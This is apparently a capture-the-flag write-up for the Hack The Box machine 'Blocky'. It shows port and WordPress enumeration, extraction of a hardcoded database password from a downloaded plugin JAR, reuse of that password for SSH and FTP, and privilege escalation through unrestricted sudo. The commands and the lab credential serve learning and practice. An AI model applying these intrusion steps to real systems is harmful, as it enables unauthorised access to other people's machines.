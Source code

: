 # Blocky


## Recon

### Service Discovery
Begin, as usual, with an `nmap` scan:

```
$ nmap -sV -sC -T4 -oN nmap_scan.txt 10.10.10.37
Not shown: 996 filtered ports
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp   open   http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp closed sophos
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

The target is a Unix box that is running FTP, SSH, and HTTP. Since the site is
built on WordPress, let's run `wpscan` to enumerate users and vulnerable
plugins:

```
$ wpscan --url http://10.10.10.37 --enumerate u, vp -o wpscan.log

...REDACTED...

[i] User(s) Identified:

[+] notch
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://10.10.10.37/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Notch
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

...REDACTED...
```

I redacted some of the scan info, but we can see that there is a Notch user.
Let's use `gobuster` to find a hidden admin login panel:

```
$ gobuster dir -u http://10.10.10.37 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt | tee gobuster.txt

/wiki                 (Status: 301) [Size: 309] [--> http://10.10.10.37/wiki/]
/wp-content           (Status: 301) [Size: 315] [--> http://10.10.10.37/wp-content/]
/plugins              (Status: 301) [Size: 312] [--> http://10.10.10.37/plugins/]   
/wp-includes          (Status: 301) [Size: 316] [--> http://10.10.10.37/wp-includes/]
/javascript           (Status: 301) [Size: 315] [--> http://10.10.10.37/javascript/] 
/wp-admin             (Status: 301) [Size: 313] [--> http://10.10.10.37/wp-admin/]   
/phpmyadmin           (Status: 301) [Size: 315] [--> http://10.10.10.37/phpmyadmin/
```

Looks like we can login to either /wp-admin or /phpmyadmin. At this point, we
can try to brute force the credentials with a tool like `hydra`. However, I
wanted to continue looking around the website for any other key info.


### Information Discovery

In the /plugins folder are two JAR (**J**ava **A**rchive) files. Download and
extract them.

```
$ wget http://10.10.10.37/plugins/files/BlockyCore.jar 
$ wget http://10.10.10.37/plugins/files/griefprevention-1.11.2-3.1.1.298.jar
$ jar -xf BlockyCore.jar
$ jar -xf griefprevention*.jar
```

Both files are now extracted. I was able to find something interesting by
running `strings` on com/myfirstplugin/BlockyCore.class:

```
$ strings com/myfirstplugin/BlockyCore.class
com/myfirstplugin/BlockyCore                                                                                                                                                                                     
java/lang/Object                                                                                                                                                                                                 
sqlHost
Ljava/lang/String;
sqlUser
sqlPass
<init>
Code
        localhost
root
8YsqfCTnvxAUeduzjNSXe22
LineNumberTable
LocalVariableTable
this
Lcom/myfirstplugin/BlockyCore;
onServerStart
onServerStop
onPlayerJoin
TODO get username
!Welcome to the BlockyCraft!!!!!!!
sendMessage
'(Ljava/lang/String;Ljava/lang/String;)V
username
message
SourceFile
BlockyCore.java
```

## Initial Foothold (rabbit-hole)

We see the username `root` and password `8YsqfCTnvxAUeduzjNSXe22`! I used these
credentials to log into the /phpmyadmin page, but not the /wp-login page.

In the phpmyadmin panel I found the below user information:

![wp_users](./screenshots/wp_users.png)

There's the password hash for the Notch user! This hash could not be cracked
with crackstation, so I googled "$P$ hash" and found [this StackOverflow
post](https://stackoverflow.com/questions/1045988/what-type-of-hash-does-wordpress-use).

It states that this has uses the [portable PHP password hashing
framework](https://www.openwall.com/phpass/).

I figured if I could login to the wp-login page, I could upload a PHP reverse
shell and compromise the machine. I went down a rabbit hole trying to crack
Notch's password with a python script I pulled from GitHub. 

This did not work. Next, I tried changing Notch's password in the phpmyadmin
panel:

![edit password](./screenshots/edit.png)

## Initial Foothold (sucess)

Even after this edit I could not log into the WordPress page! So I gave up on
the web server and tried FTP and SSH. I was able to log into both with the
credentials **notch:8YsqfCTnvxAUeduzjNSXe22**!

In either the FTP or SSH server, the user flag is found in the `user.txt` file.

## Privilege Escalation

Now we need to find the root flag. One privilege escalation technique that I
always start with it `sudo -l` to list what, if any, commands the current user
can run as root.

```
$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```

The "(ALL : ALL) ALL" means we can run all commands as root! So we can easily
`cat` out the root flag:

```
$ sudo cat /root/root.txt
```

## Conclusion

I went down a rabbit hole with trying to crack Notch's WordPress password. Even
though I was unsuccessful, I learn a couple things from it:
- WordPress replaced md5 hashes with portable PHP hashes
- [There is a GitHub repo for cracking php hashes](https://github.com/micahflee/phpass_crack)
